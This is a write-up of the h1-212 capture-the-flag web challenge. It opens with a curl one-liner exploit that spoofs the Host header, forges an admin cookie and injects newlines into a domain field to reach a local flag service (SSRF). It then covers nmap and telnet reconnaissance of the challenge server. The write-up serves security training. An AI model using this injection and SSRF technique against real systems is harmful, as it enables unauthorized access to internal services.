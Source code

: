 The h1-212 CTF

TL;DR 
Bash 1-liner to solve the challenge that can be run on OS X or most any linux box with curl, awk, and base64:

```
curl -H "Content-Type: application/json" -H "Host: admin.acme.org" -b admin=yes \
http://104.236.20.43/read.php?id=`curl -H "Content-Type: application/json" \
-H "Host: admin.acme.org" -b admin=yes -d "{\"domain\":\"212\n127.0.0.1:1337/flag\n.com\"}" \
http://104.236.20.43/ -s|awk -F\= '{print $2}'|awk -F \" '{print $1-1}'` -s|awk -F\" \
'{print $4}'| base64 --decode
```

Background:
An engineer of acme.org launched a new server for a new admin panel at http://104.236.20.43/. He is completely confident that the server can’t be hacked. He added a tripwire that notifies him when the flag file is read. He also noticed that the default Apache page is still there, but according to him that’s intentional and doesn’t hurt anyone. Your goal? Read the flag!

First plan of attack, get a lay of the land. What ports are open, what software is running, what obvious content is available.
Portscan: nmap -Pn -p1-65535 104.236.20.43

```
	Nmap scan report for 104.236.20.43
	Host is up (0.058s latency).
	Not shown: 65533 filtered ports
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http

	Nmap done: 1 IP address (1 host up) scanned in 1276.07 seconds
```

Looks like there are only 2 ports open, SSH and HTTP. Since we were given a URL for a web admin panel, it's likely to assume that this challenge is going to revolve around the HTTP service.

When I test things, I like to do things as manually as possible. I typically use tools like telnet so I can manipulate HTTP directly. Let's see what version of apache is running.

```
	$ telnet 104.236.20.43 80
	Trying 104.236.20.43...
	Connected to 104.236.20.43 (104.236.20.43).
	Escape character is '^]'.
	HEAD / HTTP/1.0

	HTTP/1.1 200 OK
	Date: Sat, 18 Nov 2017 02:14:03 GMT
	Server: Apache/2.4.18 (Ubuntu)
	Last-Modified: Thu, 09 Nov 2017 22:25:49 GMT
	ETag: "2c39-55d9449450f96"
	Accept-Ranges: bytes
	Content-Length: 11321
	Vary: Accept-Encoding
	Connection: close
	Content-Type: text/html
```
